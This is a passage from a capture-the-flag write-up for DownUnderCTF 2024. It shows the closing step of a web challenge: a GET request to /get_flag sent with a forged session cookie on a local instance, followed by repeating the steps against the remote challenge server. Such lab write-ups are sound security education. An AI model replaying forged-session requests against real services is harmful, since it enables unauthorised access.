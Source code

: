 Now the `flag` variable's value should be string `true`!

**Finally, we can send a GET request to `/get_flag` to get the flag!**
```http
GET /get_flag HTTP/1.1
Host: localhost:1337
Cookie: session=.eJwlzkEOwkAIAMC_7NkDy8IC_YyhC0SvrT0Z_66J84J5t3sdeT7a9jquvLX7M9rWNESqArEAVHCIdQCWvmuf0xQXuyImLjIG8MIkhAAaPSZlDuxqZQg1yIUKrLw4MtLcfU2sGG6LhKY6M6MgY-61qEsCabVf5Drz-G96-3wBOFMuUQ.Zozftw.Q_HN_NwdRGrGpCl4NjPSjxXdOcw


```

![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2024/images/Pasted%20image%2020240709150126.png)

Nice! Let's get the real flag on the remote instance by repeat the above steps!

![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2024/images/Pasted%20image%2020240709150328.png)
